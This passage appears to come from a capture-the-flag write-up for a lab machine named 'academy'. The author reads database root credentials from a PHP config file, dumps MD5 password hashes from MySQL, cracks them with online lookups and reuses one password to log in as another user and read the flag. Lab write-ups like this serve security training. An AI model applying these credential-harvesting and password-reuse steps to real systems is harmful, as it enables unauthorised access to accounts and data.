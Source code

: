 ```bash
www-data@academy:/var/www/html$ cat ./academy/public/config.php 
<?php
ini_set('display_errors', 1);
ini_set('display_startup_errors', 1);
error_reporting(E_ALL);
$link=mysqli_connect('localhost','root','GkEWXn4h34g8qx9fZ1','academy');
?>
```

Connecting to local instance of MySQL using the obtained credentials, noticed that there were some users created and their password hashes, that could possibly be reused by one of the existing users of this box.

```bash
$ mysql -u root -p
Password:

mysql> use academy;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> select * from users;
+----+----------+----------------------------------+--------+---------------------+
| id | username | password                         | roleid | created_at          |
+----+----------+----------------------------------+--------+---------------------+
|  5 | dev      | a317f096a83915a3946fae7b7f035246 |      0 | 2020-08-10 23:36:25 |
| 11 | test8    | 5e40d09fa0529781afd1254a42913847 |      0 | 2020-08-11 00:44:12 |
| 12 | test     | 098f6bcd4621d373cade4e832627b4f6 |      0 | 2020-08-12 21:30:20 |
| 13 | test2    | ad0234829205b9033196ba818f7a872b |      1 | 2020-08-12 21:47:20 |
| 14 | tester   | 098f6bcd4621d373cade4e832627b4f6 |      1 | 2020-08-13 11:51:19 |
+----+----------+----------------------------------+--------+---------------------+
```

After some research, found that these passwords were hashed using MD5 prior to storing in DB. Searching in some services online, the following passwords were retrieved:

- dev: **mySup3rP4s5w0rd!!**
- test8: **test8**
- test: **test**
- test2: **test2**
- tester: **test**

Now that we have a few passwords, we need to check which user possibly has the user flag. By running the command below, we have identified user **cry0l1t3** as the one we should test the obtained passwords so far:

```bash
www-data@academy:/home$ find /home -type f 2>/dev/null | grep user.txt
/home/cry0l1t3/user.txt
```

At the first try, using `mySup3rP4s5w0rd!!` we were able to login as cry0l1t3 and get the user flag

```bash
cry0l1t3@academy:~$ cat user.txt 
<redacted>
```
